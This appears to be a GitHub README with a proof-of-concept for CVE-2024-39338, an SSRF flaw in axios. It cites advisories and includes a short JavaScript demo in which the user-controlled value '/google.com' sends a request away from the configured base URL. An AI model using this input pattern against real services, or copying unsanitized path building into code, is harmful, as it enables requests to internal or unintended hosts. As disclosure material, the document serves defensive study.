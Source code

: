 # Axios SSRF Vulnerability CVE-2024-39338

Effected versions: >=1.3.2 <1.7.4

[Snyk Vuln](https://security.snyk.io/vuln/SNYK-JS-AXIOS-7361793)
[GitHub Issue](https://github.com/axios/axios/issues/6295)
[GitHub PR](https://github.com/axios/axios/pull/6539)

## Demo

```js
const axios = require('axios');

this.axios = axios.create({
  baseURL: 'https://userapi.example.com',
});

//userId = '12345';
userId = '/google.com'

this.axios.get(`/${userId}`).then(function (response) {
  console.log(`config.baseURL:  ${response.config.baseURL}`);
  console.log(`config.method:   ${response.config.method}`);
  console.log(`config.url:      ${response.config.url}`);
  console.log(`res.responseUrl: ${response.request.res.responseUrl}`);
});
```

## Sources / Credits:
- [OWASP SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [PortSwigger SSRF](https://portswigger.net/web-security/ssrf)
- [Snyk SSRF](https://snyk.io/vuln/SNYK-JS-AXIOS-7361793)
- [CVE-2024-39338](https://www.cve.org/CVERecord?id=CVE-2024-39338)
- [GitHub Issue - jeffhacks](https://github.com/axios/axios/issues/6463)
- [GitHub Issue - Osb0rn3](https://github.com/axios/axios/issues/6295)